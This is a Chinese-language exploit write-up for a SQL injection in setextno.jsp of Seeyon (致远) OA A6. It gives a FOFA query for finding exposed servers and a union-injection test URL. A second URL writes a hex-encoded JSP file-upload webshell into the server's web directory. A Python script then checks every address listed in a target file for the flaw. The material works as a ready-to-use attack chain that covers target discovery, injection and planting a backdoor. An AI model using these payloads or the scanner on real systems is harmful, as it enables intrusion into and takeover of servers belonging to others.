



# 致远OA A6 setextno.jsp SQL注入漏洞

## 漏洞描述

致远OA A6 setextno.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

> [!NOTE]
>
> 致远OA A6

## FOFA

>[!NOTE]
>
>title="致远A8+协同管理软件.A6"

## 漏洞复现

访问如下Url，其中含有 union注入

```
http://xxx.xxx.xxx.xxx/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(md5(1)),4# 
```


查看web路径



写入文件上传木马

```
http://xxx.xxx.xxx/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(select unhex('3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E')  into outfile 'D:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/peiqi_upload.jsp'),4# 
```

剩下的步骤参考另一篇 **致远OA A6 test.jsp SQL注入漏洞**



## 漏洞利用POC

> [!NOTE]
>
> 多个目标

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA A6                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(md5(1)),4#"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 200 and "c4ca4238a0b923820dcc509a6f75849b" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞 \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```



